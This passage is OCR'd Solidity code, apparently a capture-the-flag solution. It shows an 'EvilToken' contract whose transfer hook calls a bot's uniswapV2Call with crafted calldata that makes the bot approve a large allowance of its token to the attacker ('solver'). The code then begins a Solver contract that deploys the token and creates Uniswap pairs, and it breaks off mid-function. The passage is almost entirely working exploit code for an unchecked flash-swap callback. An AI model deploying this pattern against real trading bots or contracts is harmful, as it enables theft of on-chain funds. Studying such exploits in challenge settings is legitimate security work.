 ```solidity
    uint constant public totalSupply = 100 ether;
    mapping (address => uint) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    address solver;

    event Transfer(address indexed from, address indexed to, uint value);
    event Approval(address indexed owner, address indexed spender, uint value);

    constructor(address solver_) {
        solver = solver_;
        balanceOf[msg.sender] = totalSupply;
        emit Transfer(address(0), msg.sender, totalSupply);
    }

    function transfer(address to, uint value) public returns (bool) {
        _transfer(msg.sender, to, value);
        return true;
    }

    function approve(address spender, uint value) public returns (bool) {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
    }

    function transferFrom(address from, address to, uint value) public returns (bool) {
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(from, to, value);
        return true;
    }

    function _transfer(address from, address to, uint value) private {
        require(balanceOf[from] >= value);
        balanceOf[from] -= value;
        balanceOf[to] += value;
        emit Transfer(from, to, value);

        //if (gasleft() < 2000000) {
        if (block.number >= 8) {
            Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
            uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
            address[] memory addressList = new address[](1);
            bytes[] memory calldataList = new bytes[](1);
            addressList[0] = 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7;
            calldataList[0] = abi.encodePacked(uint32(0x095ea7b3), uint256(uint160(solver)), uint256(114514 ether));
            bot.uniswapV2Call(address(bot), 0, 0, abi.encode(addressList, calldataList));
        }
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}

contract Solver {
    constructor() payable {
        EvilToken e = new EvilToken(address(this));
        IUniswapV2Factory fac1 = IUniswapV2Factory(0x164e31a6Ac83D5EDaE2139Add30099485D15d138);
        IUniswapV2Factory fac2 = IUniswapV2Factory(0xff2624eb527e4acAb0afE10270B7F6f58483D319);
        IUniswapV2Pair pair1 = IUniswapV2Pair(fac1.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));
```